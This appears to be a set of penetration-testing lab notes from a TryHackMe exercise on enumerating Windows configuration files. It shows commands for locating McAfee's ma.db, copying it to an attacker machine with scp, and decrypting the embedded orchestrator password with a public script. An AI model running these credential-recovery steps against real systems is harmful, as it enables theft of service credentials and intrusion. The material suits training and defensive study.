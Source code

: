 # Configuration Files
- Various configuration files may be of value for enumeration: 
  - Web application config files
  - Service configuration files
  - Registry keys
  - Centrally deployed applications

- You may use [Seatbelt](https://github.com/GhostPack/Seatbelt) to automate this enumeration process.

## Credential Recovery from McAfee Enterprise Endpoint Security
- McAfee embeds the credentials used during installation to connect back to the orchestrator in a file called ma.db.
``` bash
thm@THMJMP1 C:\Users\THM>cd C:\ProgramData\McAfee\Agent\DB
thm@THMJMP1 C:\ProgramData\McAfee\Agent\DB>dir
 Volume in drive C is Windows 10
 Volume Serial Number is 6A0F-AA0F

 Directory of C:\ProgramData\McAfee\Agent\DB      

03/05/2022  10:03 AM    <DIR>          .
03/05/2022  10:03 AM    <DIR>          ..
03/05/2022  10:03 AM           120,832 ma.db      
               1 File(s)        120,832 bytes     
               2 Dir(s)  39,426,285,568 bytes free
```

1. We can use SCP to copy the ma.db to our AttackBox
```bash
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
```
2. read the SQL file:
```
sqlitebrowser ma.db
```

3. decrypt the password with this [repo](https://github.com/funoverip/mcafee-sitelist-pwd-decryption). Note that is it running on python2.
```
python2 mcafee_sitelist_pwd_decrypt.py <CRYPTED PASSWORD YOU SEE ON DB>
```

```
